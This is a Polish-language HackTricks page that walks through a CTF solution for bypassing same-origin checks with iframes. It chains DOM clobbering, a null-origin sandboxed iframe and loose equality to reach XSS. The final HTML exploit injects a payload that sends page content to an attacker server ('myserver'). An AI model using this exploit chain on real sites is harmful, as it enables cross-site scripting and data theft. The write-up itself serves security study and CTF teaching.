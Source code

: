 # Bypassing SOP with Iframes - 2

{{#include ../../banners/hacktricks-training.md}}

## Iframes in SOP-2

W [**rozwiązaniu**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) dla tego [**wyzwania**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic_) proponuje podobną metodę do poprzedniej sekcji. Sprawdźmy to.

W tym wyzwaniu atakujący musi **obejść** to:
```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```
Jeśli to zrobi, może wysłać **postmessage** z treścią HTML, która zostanie zapisana na stronie za pomocą **`innerHTML`** bez sanitacji (**XSS**).

Sposobem na obejście **pierwszej kontroli** jest ustawienie **`window.calc.contentWindow`** na **`undefined`** i **`e.source`** na **`null`**:

- **`window.calc.contentWindow`** to tak naprawdę **`document.getElementById("calc")`**. Możesz zniszczyć **`document.getElementById`** za pomocą **`<img name=getElementById />`** (zauważ, że API Sanitizer -[tutaj](https://wicg.github.io/sanitizer-api/index.html#dom-clobbering)- nie jest skonfigurowane, aby chronić przed atakami DOM clobbering w swoim domyślnym stanie).
- Dlatego możesz zniszczyć **`document.getElementById("calc")`** za pomocą **`<img name=getElementById /><div id=calc></div>`**. Wtedy **`window.calc`** będzie **`undefined`**.
- Teraz potrzebujemy, aby **`e.source`** było **`undefined`** lub **`null`** (ponieważ używane jest `==` zamiast `===`, **`null == undefined`** jest **`True`**). Osiągnięcie tego jest "łatwe". Jeśli stworzysz **iframe** i **wyślesz** **postMessage** z niego, a następnie natychmiast **usunięsz** iframe, **`e.origin`** będzie **`null`**. Sprawdź poniższy kod
```javascript
let iframe = document.createElement("iframe")
document.body.appendChild(iframe)
window.target = window.open("http://localhost:8080/")
await new Promise((r) => setTimeout(r, 2000)) // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`)
document.body.removeChild(iframe) //e.origin === null
```
Aby obejść **drugą kontrolę** dotyczącą tokena, należy wysłać **`token`** z wartością `null` i ustawić wartość **`window.token`** na **`undefined`**:

- Wysłanie `token` w postMessage z wartością `null` jest trywialne.
- **`window.token`** w wywołaniu funkcji **`getCookie`**, która używa **`document.cookie`**. Należy zauważyć, że jakiekolwiek odwołanie do **`document.cookie`** na stronach o **`null`** pochodzeniu wywołuje **błąd**. Spowoduje to, że **`window.token`** będzie miało wartość **`undefined`**.

Ostateczne rozwiązanie od [**@terjanq**](https://twitter.com/terjanq) to [**następujące**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):
```html
<html>
<body>
<script>
// Abuse "expr" param to cause a HTML injection and
// clobber document.getElementById and make window.calc.contentWindow undefined
open(
'https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"'
)

function start() {
var ifr = document.createElement("iframe")
// Create a sandboxed iframe, as sandboxed iframes will have origin null
// this null origin will document.cookie trigger an error and window.token will be undefined
ifr.sandbox = "allow-scripts allow-popups"
ifr.srcdoc = `<script>(${hack})()<\/script>`

document.body.appendChild(ifr)

function hack() {
var win = open("https://obligatory-calc.ctf.sekai.team")
setTimeout(() => {
parent.postMessage("remove", "*")
// this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
// token=null equals to undefined and e.source will be null so null == undefined
win.postMessage(
{
token: null,
result:
"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>",
},
"*"
)
}, 1000)
}

// this removes the iframe so e.source becomes null in postMessage event.
onmessage = (e) => {
if (e.data == "remove") document.body.innerHTML = ""
}
}
setTimeout(start, 1000)
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
